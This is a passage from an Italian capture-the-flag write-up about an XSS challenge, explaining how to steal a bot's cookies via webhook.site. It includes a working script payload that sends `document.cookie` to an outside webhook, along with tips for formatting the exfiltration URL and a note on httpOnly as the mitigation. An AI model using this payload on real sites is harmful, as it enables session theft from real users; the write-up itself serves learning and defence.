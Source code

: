 ##### Cookie stealing e webhooks
I cookie sono un tipo di header speciale, e per questo esiste una sorta di shortcut in JavaScript che permette di accedervi, ovvero la proprietà `document.cookie`. 

Per riuscire ad esfiltrare i cookie di un utente sul sito, si ha bisogno di un endpoint che sia raggiungibile dalla vittima, il che significa che bisogna esporre un server per fare in modo che sia raggiungibile da chiunque. 

I [webhook](https://en.wikipedia.org/wiki/Webhook) sono... cose... molto versatili. Per quel che riguarda questa challenge, un sito come [webhook.site](https://webhook.site/) permette di utilizzarli come se si stesse utilizzando un proprio server esposto al mondo esterno.

Per fare una prova, si può utilizzare un payload di questo tipo. `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In questo tipo di payload è importante non utilizzare un tag HTML, ma assicurarsi che stia venendo effettivamente eseguito del codice JavaScript (va bene inserire l'URL al webhook concatenato con `document.cookie` dentro ad un `onerror`, ma non in una semplice `src`) in modo che document.cookie sia "raggiungibile".

Inoltre, bisogna appendere i cookie come query parameter (webhook e server personale) o come path (solo server personale). Non farlo significa appendere i cookie come parte dell'host, il che significa che la richiesta non raggiungerà mai la destinazione desiderata. Per esempio, invece di finire su `myhost.com`, finirebbe su `myhost.comCOOKIENAME=COOKIEVALUE`, che non ha senso, al contrario di `myhost.com?c=COOKIENAME=COOKIEVALUE` o `myhost.com/COOKIENAME=COOKIEVALUE` (che con `webhook,site` non ha senso, a meno che non si sia proprietari di suddetto dominio).

Eseguendo il payload poco sopra inviandolo nella pagina di ricerca, si ottiene il risultato seguente su webhook.site:

![Esempio risultato webhook](./media/img/FirstWebhook.png)

Ecco i cookies!

#### Secondo passo: Cookie stealing al bot
Forse avrebbe avuto più senso trovare prima un payload valido con il filtro di caratteri, ma in gara ero un po' nel panico e volevo essere sicuro di poter rubare i cookie al bot senza problemi. Paura immotivata, visto che non c'era alcun tipo di controllo in questo senso e non veniva specificato il valore di [`httpOnly`](https://owasp.org/www-community/HttpOnly) per il cookie `flag`, che verrà quindi settato come da default value a `false`.

*che significa?* Per motivi di sicurezza è stata introdotta la flag opzionale `httpOnly` per il cookie, che se settata a `true` non permette al codice JavaScript presente nel documento di accedere a `document.cookie`, mitigando esattamente il tipo di attacco che sto per effettuare.
